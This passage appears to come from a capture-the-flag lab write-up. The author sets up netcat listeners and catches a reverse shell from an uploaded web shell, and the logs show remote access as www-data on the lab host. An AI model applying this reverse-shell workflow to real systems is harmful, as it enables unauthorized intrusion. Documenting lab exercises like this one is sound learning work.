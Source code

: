 
```
root@ip-10-10-38-171:~# nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 185.247.137.124 46903

H\ufffd\ufffd\ufffd\ufffd]\ufffd\ufffd+\ufffd\ufffd]\ufffd\ufffd\ufffd\ufffd\ufffd+H`root@ip-10-10-38-171:~# 
```

Which probably means I should use a different port. Port 443 is one of the most scanned ports on the internet. Random scanners/bots/crawlers were hitting my box expecting HTTPS not a reverse shell. At least thats what the GET /HTTP/1.1 implies. I changed my port to 1337, in the hopes of getting better results. Yet even after changing around ports it just didn’t seem to work anymore which is surprising and also very frustrating. I decided to put it to rest for now, as it was getting late. Hopefully I could solve this soon enough.

------------------------------------------------------------------------------------------------------------------------

When trying this again the day after I still had problems, so I just checked the uploads domain to check if the shell even existed there, which it did

<img width="933" height="342" alt="grafik" src="https://github.com/user-attachments/assets/92356bba-5133-4447-9abf-7e468e5c4afc" />

After clicking on it, everyhing seemes to run accordingly on the listener.

```
root@ip-10-10-53-190:~# nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.69.117 51194
Linux ip-10-10-69-117 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 17:14:59 up 28 min,  0 users,  load average: 0.03, 0.09, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ 
```

